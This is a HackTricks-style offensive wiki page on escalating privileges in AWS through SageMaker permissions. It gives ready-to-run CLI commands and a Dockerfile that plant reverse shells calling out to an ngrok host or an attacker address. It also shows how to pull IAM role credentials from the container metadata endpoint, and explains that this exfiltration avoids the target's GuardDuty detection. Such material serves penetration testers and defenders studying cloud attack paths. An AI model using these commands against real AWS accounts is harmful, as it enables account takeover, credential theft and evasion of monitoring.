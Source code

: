 # AWS - Sagemaker Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

The first step in this attack process is to **identify a role that trusts SageMaker to assume it** (sagemaker.amazonaws.com). Once that’s done, we can run the following command to create a new notebook with that role attached:

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```

If successful, you will receive the **ARN of the new notebook instance** in the response from AWS. That will take **a few minutes** to spin up, but once it has done so, we can run the following command to get a pre-signed URL to get **access to the notebook instance through our web browser**. There are potentially other ways to gain access, but this is a single permission and single API call, so it seemed simple.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

If this instance was fully spun up, this API call will return a **signed URL that we can visit** in our browser to access the instance. Once at the Jupyter page in my browser, I’ll click "Open JupyterLab" in the top right, which can be seen in the following screenshot.

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

From the next page, scroll all the way down in the “Launcher” tab. Under the “Other” section, click the “Terminal” button, which can be seen here.

![](<../../../.gitbook/assets/image (27).png>)

From the terminal we have a few options, one of which would be to just **use the AWS CLI**. The other option would be to **contact the EC2 metadata** service for the IAM role’s credentials directly and exfiltrate them.

GuardDuty might come to mind when reading “exfiltrate them” above, however, we don’t actually need to worry about GuardDuty here. The related GuardDuty finding is [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11), which will alert if a role’s credentials are stolen from an EC2 instance and used elsewhere. Luckily for us, this EC2 instance doesn’t actually live in our account, but instead it is a **managed EC2 instance hosted in an AWS-owned account**. That means that **we can exfiltrate these credentials and not worry about triggering** our target’s GuardDuty detectors.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Similar to the previous example, if Jupyter **notebooks are already running** on it and you can list them with sagemaker:ListNotebookInstances (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

**Potential Impact:** Privesc to the sagemaker service role attached.

### `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

{% hint style="warning" %}
This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).

```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions will (potentially) be able to create an **hyperparameter training job**, **running an arbitrary container** on it with a **role attached** to it.\
_I haven't exploited because of the lack of time, but looks similar to the previous exploits, feel free to send a PR with the exploitation details._

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
